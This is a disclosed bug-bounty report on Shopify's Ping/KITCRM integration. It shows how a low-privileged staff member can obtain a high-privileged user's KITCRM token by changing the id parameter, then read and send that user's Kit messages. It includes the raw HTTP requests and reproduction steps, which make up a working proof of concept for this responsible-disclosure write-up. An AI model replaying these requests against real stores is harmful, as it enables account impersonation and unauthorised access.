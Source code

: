 # Low privileged user can create high privileged user's KITCRM authorization token and can read and write message to KIT

## Report Details
- **Report ID**: 909863
- **URL**: https://hackerone.com/reports/909863
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-06-27T19:10:21.043Z
- **Disclosed**: 2021-02-07T17:36:41.431Z

## Reporter
- **Username**: sandeep_rj49
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Using the Shopify ping application a user can communicate with the kit. The kit is an application that creates tasks based on the information supplied through the Shopify ping app by a user. With a few quick messages to Kit using Shopify Ping,  a user can create a discount code and promote it, start a retargeting campaign to bring visitors back to your store, send thank you emails to customers, and much more!

###Who has access to the Shopify PING application?
Full permission users have access to the Shopify ping application. And they can communicate with KIT also using the Shopify ping application.

Low privileged user having no or very low permission is not allowed to log in to the Shopify ping application and thus not allowed to communicate with the kit application.

### What is the bug?
Low privileged who do not have access to the Shopify ping application can create a Shopify ping access token using the login API. Using the Shopify ping access token, a low privileged user can create any user's  KITCRM authorization token. 

While creating the KITCRM authorization token, the vulnerable request asks for user id (staff member id). A low privileged user can create the high privileged user's   KITCRM authorization token by supplying the high privileged user's id in the id parameter of the vulnerable request 1. The response will disclose the high privileged user's KITCRM authorization token. Using the high privileged user's KITCRM authorization token, a low privileged user can read the conversation between high role user and kit and can also send the new instructions to kit using high privileged user token.

###Vulnerable request 1:

Request 1: Generate a high role user's KITCRM authorization token using low privileged user's Shopify ping access token.

```
POST /api/v1/arro_token?access_token=███████&myshopify_domain=alwayzhack.myshopify.com&id=42668326968 HTTP/1.1
Host: www.kitcrm.com
Content-Type: application/json
Cookie: 
Connection: close
Accept: application/json
X-DeviceID: 
User-Agent: Shopify Ping/iOS/2.5.4 (iPhone12,3/com.shopify.ping/13.1.1) - Build 3006
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Content-Length: 0
```
Supply low privileged user's Shopify ping access token in `access_token` parameter value. Change `myshopify_domain ` with yours and `id` parameter value with high privileged user's staff memberid. The response will disclose high privileged user's KITCRM authorization token.

Response:
████████

Request 2: Display high privileged user's communication with kit

```
GET /api/v2/messages HTTP/1.1
Host: www.kitcrm.com
Content-Type: application/json
Cookie: 
Connection: close
Accept: application/json
User-Agent: Shopify Ping/2.5.4 (com.shopify.ping; build:3006; iOS 13.1.1) Alamofire/4.8.2
Authorization: Bearer ████████
Accept-Encoding: gzip, deflate
Accept-Language: en-IN;q=1.0, hi-IN;q=0.9
```

Request 3: Send message to kit using high privileged user's chatbox

```
POST /api/v2/messages HTTP/1.1
Host: www.kitcrm.com
Accept: application/json
Authorization: Bearer 1fbb7a0ebb0dd18c2f3697f51fde49a541a30608255d9a1a258XXXXXXXX
Accept-Encoding: gzip, deflate
Accept-Language: en-us
Content-Type: application/json
Content-Length: 40
X-Shopify-Access-Token: 
Connection: close
X-DeviceID: 
User-Agent: Shopify Ping/iOS/2.5.4 (iPhone12,3/com.shopify.ping/13.1.1) - Build 3006

{
  "incoming_message" : "testtesthai"
}
```

Steps to reproduce:
1. login to the Shopify ping application using high privileged user account credentials.
2. Do some chat with the kit in Shopify ping.
3. Add a low privileged user in your Shopify test account and assign no or very low permission to the low privileged user.
3. Use Shopify ping login API - `POST /admin/api/xauth HTTP/1.1` to create a low privileged user's access token using low privileged user account credentials. 
4. Use low privileged user's Shopify ping access token in the vulnerable request 1. 
5. Input high privileged user's staff member id in the `id` parameter of the vulnerable request 1. 
6. Replay the vulnerable request 1 in the burp suite proxy. The response will disclose high privileged user's KITCRM authorization token.
7. Use high privileged user's authorization token in vulnerable request 2 to view  high privileged user's chat with the kit.
8. To send the command to the kit, replay the vulnerable request 3 with high privileged user's KITCRM authorization token. Instruction will be sent to the kit.

## Impact

A low privileged user can create high privileged user's KITCRM authorization token and can view high privileged user's communication with kit. Also, low privileged users can give new instructions to kit using the discovered high privileged user authorization token. 

When all the communication will be done using a high privileged user account, so tracking the attacker will be difficult.

## Attachments
No attachments
